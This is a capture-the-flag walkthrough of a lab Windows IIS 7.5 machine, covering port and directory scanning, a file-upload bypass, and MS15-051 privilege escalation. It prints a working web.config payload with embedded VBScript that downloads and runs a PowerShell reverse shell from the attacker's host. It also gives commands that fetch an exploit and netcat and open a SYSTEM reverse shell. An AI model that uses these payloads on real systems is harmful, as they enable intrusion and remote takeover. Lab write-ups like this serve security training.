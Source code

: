 # Bounty

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.240     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 08:57 EDT
Nmap scan report for 10.129.85.240
Host is up (0.012s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

This is a pretty old machine AND its running Windows, so there's probably some kind of IIS exploit here.

### File Upload

The web application just shows an image of a wizard:

<figure><img src="../../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>

A quick check on the requests reveals this is running Microsoft-IIS/7.5.

<figure><img src="../../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

We can run a quick `gobuster` scan with `aspx,html,txt` extensions, and find a few files.

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://10.129.85.240/ -t 100 -x aspx,html,txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.85.240/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              html,txt,aspx
[+] Timeout:                 10s
===============================================================
2023/05/06 09:00:00 Starting gobuster in directory enumeration mode
===============================================================
/transfer.aspx        (Status: 200) [Size: 941]
/uploadedfiles        (Status: 301) [Size: 0]
```

The ASPX page was a simple file upload.&#x20;

<figure><img src="../../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

I tried to upload an ASPX reverse shell, but it gives me an Invalid File error.

<figure><img src="../../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

This can be bypassed via NULL byte by appending `%00.jpg` to the end of the filename in Burp.

<figure><img src="../../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

However, when trying to view the file at `/UploadedFiles/rev.aspx`, it returns an error instead of a shell.

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

So uploading ASPX files doesn't work. But how about `web.config` files? It is possible to upload one that has VBScript embedded within it to execute commands. This is because we can potentially overwrite the existing `web.config` file and replace it with ours that executes commands.

Here's the file I used:

```markup
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.13/Invoke-PowerShellTcp.ps1')")
%>
```

This would download a simple Powershell reverse shell from our device. We can directly upload the `web.config` file without bypassing any file extension checks. Afterwards, visiting the `/UploadedFiles/web.config` directory would make the machine download and run the script, giving us a reverse shell.

<figure><img src="../../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

We can grab the user flag.

## Privilege Escalation

### MS15-051

I did a quick check on the machine's OS by running `systeminfo`.

```
PS C:\windows\system32\inetsrv> systeminfo

Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3606965-84760
Original Install Date:     5/30/2018, 12:22:24 AM
System Boot Time:          5/6/2023, 9:04:11 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,575 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,587 MB
Virtual Memory: In Use:    508 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.85.240
                                 [02]: fe80::4112:6417:a55f:fe64
                                 [03]: dead:beef::4112:6417:a55f:fe64
```

This was running Windows Datacenter 2008 and had no hotfixes applied. This means it is vulnerable to MS15-051.&#x20;

{% embed url="https://github.com/hfiref0x/CVE-2015-1701/tree/master/Compiled" %}

We can download the exploit and `nc.exe` to the machine via Powershell and run `exploit.exe` like this:

```powershell
(New-Object Net.WebClient).DownloadFile('http://10.10.14.13/ms15-051x64.exe', 'C:\users\merlin\desktop\exploit.exe')
(New-Object Net.WebClient).DownloadFile('http://10.10.14.13/nc64.exe','C:\users\merlin\desktop\nc.exe')
C:\users\merlin\desktop\exploit.exe "C:\users\merlin\desktop\nc.exe -e cmd.exe 10.10.14.13 4444"
```

This would give us a reverse shell as SYSTEM.

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

Rooted!
